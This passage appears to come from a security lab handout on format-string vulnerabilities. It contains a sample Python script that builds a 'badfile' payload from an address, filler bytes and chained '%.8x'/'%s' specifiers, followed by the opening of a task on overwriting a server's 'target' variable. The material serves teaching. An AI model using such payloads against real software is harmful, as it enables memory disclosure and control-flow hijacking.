 \begin{lstlisting}[label=format:code:exploit, caption={Sample code 
\texttt{build\_string.py} (can be downloaded from the lab's website)}]
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store an integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%s"
s = "%.8x"*12 + "%s" 

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
\end{lstlisting}
 



\subsection{Task 5: Change the Server Program's Memory}

The objective of this task is to modify the value of the 
\texttt{target} variable that is defined in the server program.
Its original value is \texttt{0x11223344}.  
Assume that this variable holds an important value, which can affect the 
control flow of the program. If remote attackers can change its value, 
they can change the behavior of this program. We have three sub-tasks. 



